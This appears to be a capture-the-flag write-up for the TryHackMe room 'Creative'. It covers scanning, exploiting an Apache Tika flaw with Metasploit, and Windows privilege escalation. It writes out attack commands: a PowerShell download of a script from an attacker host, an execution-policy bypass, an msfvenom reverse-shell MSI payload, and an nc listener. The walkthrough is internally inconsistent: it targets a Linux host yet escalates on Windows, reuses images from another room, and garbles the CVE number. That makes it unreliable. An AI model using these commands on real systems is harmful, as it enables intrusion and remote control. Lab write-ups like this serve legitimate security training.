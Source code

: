 ```yaml
---
title: THM Creative
author: hanhctf
date: 2024-05-21 12:00:00 +0700
categories: [Write-up, THM]
tags: []
toc: true
mermaid: true
---
```


# [**Creative**](https://tryhackme.com/r/room/creative)

# Summary
>
> - beta subdomain
> - Use metasploit exploit user
> - Use PrivescCheck.ps1, check Windows Privilege Escalation  
> - AlwaysInstallElevated vuln

## NMAP

```text
Nmap scan report for creative.thm (10.10.204.200)
Host is up (0.40s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration

The Nmap scan reveals only two ports: port 22, on which we have SSH, and port 80, a web server with nginx 1.18.0.

Nothing interesting on the web server.

Time to enumerate some subdomains `creative.thm`.

We find the subdomain `beta.creative.thm`.

![](/commons/THM/Creative/0_subdomain.png)

Quick search, we found CVE-201801335 for Apache Tika 1.17 Server on [exploit-db](https://www.exploit-db.com/exploits/47208)

## Foothold

Use Metasploit to exploit this vuln.
![](/commons/THM/CyberLens/1_metasploit_exploit.png)

Worked.

***GOT USER.TXT FLAG***

## Privilege Escalation

This tool can find in Github [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck).

We can use curl to upload PrivescCheck.ps1 to victim via powershell.
In this case. I run local server with `python3 -m http.server 80` to host PrivescCheck.ps1 file.
In victim machine, we get .ps1 via `Invoke-WebRequest -Uri http://attack_IP:port/PrivescCheck.ps1 -Outfile PrivescCheck.ps1`

Run tools:

```shell
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"
```

We found a vuln that can be exploit.

![](/commons/THM/CyberLens/2_Always_Install_Elevated.png)

And we can use [this exploit](https://juggernaut-sec.com/alwaysinstallelevated/)

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f msi -o evil.msi
```

And upload from local.
In another terminal, listen on port 443 `sudo nc -nlvp 443`

After get evil.msi in victim from local.
Just run file. And we got system.
![](/commons/THM/CyberLens/3_Root.png)

***GOT ADMIN.TXT FLAG***
